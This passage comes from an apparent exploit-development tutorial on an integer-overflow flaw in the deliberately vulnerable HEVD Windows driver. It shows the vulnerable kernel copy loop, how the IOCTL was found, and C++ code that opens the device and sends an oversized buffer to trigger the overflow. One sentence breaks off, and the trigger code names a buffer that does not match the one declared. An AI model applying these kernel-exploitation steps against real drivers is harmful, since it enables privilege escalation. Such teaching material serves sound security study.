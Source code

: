```c
while (Count < (Size / sizeof(ULONG))) {
    if (*(PULONG)UserBuffer != BufferTerminator) {
        KernelBuffer[Count] = *(PULONG)UserBuffer;
        UserBuffer = (PULONG)UserBuffer + 1;
        Count++;
    }
    else {
        break;
    }
}
}
```

### Driver communication

We can discover the IOCTL for this vulnerability class just like we have done in all of the previous posts, you can either reverse the driver in IDA or calculate the IOCTL from the source code CTL_MACRO definition.

The provided IOCTL for this vulnerability class is: 222027

` #define HEVD_0x00222027 CTL_CODE(0x22, 0x809, METHOD_NEITHER, FILE_ANY_ACCESS`

![ioctl](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/int/integer3.png)

We can use `CreateFileA` like always to establish the handler to our driver, this is just standard driver IO 101.

```c++
HANDLE hDevice = CreateFileA(DEVICE_NAME,
			 GENERIC_READ | GENERIC_WRITE,
			 FILE_SHARE_READ | FILE_SHARE_WRITE,
			 NULL,
			 OPEN_EXISTING,
			 FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
			 NULL);

if (hDevice == INVALID_HANDLE_VALUE){
std::cout << "[!] Failed to establish a device handler" << GetLastError() << std::endl;
} else {
std::cout << "[+] Established a handle to the device - " << DEVICE_NAME << std::endl;
}
```

To trigger this vulnerability, we need to 

### Trigger the vulnerability

```c++
    std::cout << "[+] Preparing the buffer payload\n";
    BYTE input_buff[0x751] = { 0 };
	
    memset(
        input_buff,
        '\x41',
        0x750);

    DWORD sizeReturn;
    BOOL deviceCom = DeviceIoControl(hDevice,
                    IOCTL,
                    uBuffer,
                    0xffffffff,
                    NULL,
                    0,
                    &sizeReturn,
                    NULL);
```